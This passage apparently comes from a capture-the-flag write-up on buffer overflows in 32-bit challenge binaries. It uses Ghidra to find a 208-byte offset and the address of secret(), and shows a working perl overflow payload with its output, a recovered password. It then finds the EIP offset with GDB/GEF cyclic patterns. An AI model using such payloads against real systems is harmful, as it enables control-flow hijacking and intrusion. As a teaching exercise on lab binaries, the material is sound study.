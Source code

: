 
The nice thing about Ghidra is it figured out the compiled buffer size for us, which is `208` bytes, and with the pointer right after the buffer, it'll mean that we only need to write `208` characters/bytes to the program to control the pointer.

To get the address of `#!c secret()`, we can simply hover over the defined pointer in Ghidra, or we can press ++g++ to find the function. This gives us the address of `08049b1b`.

![Ghidra Secret Function](./_assets/ghidra-secret-func.png "Finding the address of secret() in Ghidra")

Lets test our findings:

```shell
$ perl -e 'print "A"x208,"\x1b\x9b\x04\x08"' | ./prog2
secret password is MyPnLXEhECLyBEwT
```

Neat, we got the secret password (I know it's in the code, but we need the offset and addr for the challenge).

## Method 3: GDB Analysis
Most likely the fastest method, we can use GDB with GEF to generate a cyclic pattern to find at which point we control the EIP register (since the program is 32 bit). Once we know the offset, we can easily control which instruction we jump to.

Let's start by running the program in GDB and generating a cyclic pattern. We'll use something large like 250 bytes based on the past challenge files having large buffers.

```shell
$ gdb ./prog3
Reading symbols from ./prog3...
(No debugging symbols found in ./prog3)
gef➤  pattern create 250
[+] Generating a pattern of 250 bytes (n=4)
aaaabaaacaaadaaaeaaafaaagaaah...snipped...cgaachaaciaacjaackaaclaacma
[+] Saved as '$_gef0'
```

Now we can run the program, and it should crash as we'll overwrite the return address with random characters that arent a valid address.

```shell
gef➤  run < $_gef0
─────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0x63636161 ("aacc"?)
$ebx   : 0xf7f8fff4  →  0x0021cd8c
$ecx   : 0x61      
$edx   : 0x0804a055  →  "ZmQQsmRExtDVVHqfpJwyfjFzUTI"
$esp   : 0xffffc8ec  →  0x0804937d  →  <main+103> mov eax, 0x0
$ebp   : 0xffffc9e8  →  "aacfaacgaachaaciaacjaackaaclaacma"
$esi   : 0x0804bf04  →  0x08049140  →  <__do_global_dtors_aux+0> endbr32 
$edi   : 0xf7ffcb80  →  0x00000000
$eip   : 0x63636161 ("aacc"?)
$eflags: [zero carry PARITY adjust SIGN trap INTERRUPT direction overflow RESUME virtualx86 identification]
```